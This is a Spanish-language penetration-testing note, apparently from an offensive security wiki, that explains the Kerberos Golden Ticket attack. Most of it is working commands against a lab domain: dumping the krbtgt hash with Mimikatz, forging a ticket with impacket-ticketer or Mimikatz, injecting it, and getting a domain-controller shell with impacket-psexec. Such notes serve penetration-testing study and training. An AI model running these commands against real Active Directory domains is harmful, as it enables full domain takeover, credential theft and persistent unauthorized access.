 # Golden Ticket Attack

Esta técnica permite que al tener credenciales de un usuario administrador del dominio, el dumpear el hash de la cuenta **krbtgt.** Esta cuenta de por sí no tiene ningún privilegio asociado sino únicamente de que su hash es el que usa el **KDC** para cifrar los **TGT**. Por lo que el tener el hash de esta cuenta, permite el forjar de manera arbitraria **TGS** para tener acceso a cualquier recurso del DC.



## Explotación

### Con impacket-ticketer

Crear variable de entorno

{% code overflow="wrap" %}
```bash
# Usage
impacket-ticketer -nthash <nthash> -domain-sid <sid> -domain <domain.local> (user)

# Example
impacket-ticketer -nthash 7a10ed0c241a70ea53777ca37c320bd9 -domain-sid S-1-5-21-559191057-1952517652-1921332360 -domain gerarcorp.local Administrador
```
{% endcode %}

Exportar variable de entorno a KRB5CCNAME

```bash
export KRB5CCNAME=Administrador.ccache
```

Obtener shell con impacket-psexec

```bash
impacket-psexec -k -no-pass gerarcorp.local/Administrador@DC-Company cmd.exe 

## cat /etc/hosts
127.0.0.1       localhost
127.0.1.1       kali

# The following lines are desirable for IPv6 capable hosts
::1     localhost ip6-localhost ip6-loopback
ff02::1 ip6-allnodes
ff02::2 ip6-allrouters


192.168.0.111 gerarcorp gerarcorp.local DC-Company
```

### Con Mimikatz

Dumpear el **sid** y **hash ntlm** de la cuenta **krbtgt**

```powershell
Invoke-Mimikatz -Command '"lsadump::lsa /inject /name:krbtgt"'
```

**-k:** Use Kerberos authentication. Grabs credentials from ccache file (KRB5CCNAME) based on target parameters. If valid credentials cannot be found, it will use the ones specified in the command line



Forgar el **TGT**

{% code overflow="wrap" %}
```powershell
# Usage
Invoke-Mimikatz -Command '"kerberos::golden /domain:<DOMAIN> /sid:<SID> /rc4:<NTLM HASH> /user:<User> /ticket:<name of the ticket>"'

# Guardar el ticket a un archivo
Invoke-Mimikatz -Command '"kerberos::golden /domain:gerarcorp.local /sid:S-1-5-21-559191057-1952517652-1921332360 /rc4:7a10ed0c241a70ea53777ca37c320bd9 /user:Administrador /ticket:gold.kirbi"'
```
{% endcode %}

Usar el ticket creado con la cuenta que nos querramos autenticar al ticket creado, permitiendonos acceder a los recursos del mismo

```powershell
Invoke-Mimikatz -Command '"kerberos::ptt gold.kirbi"'
```
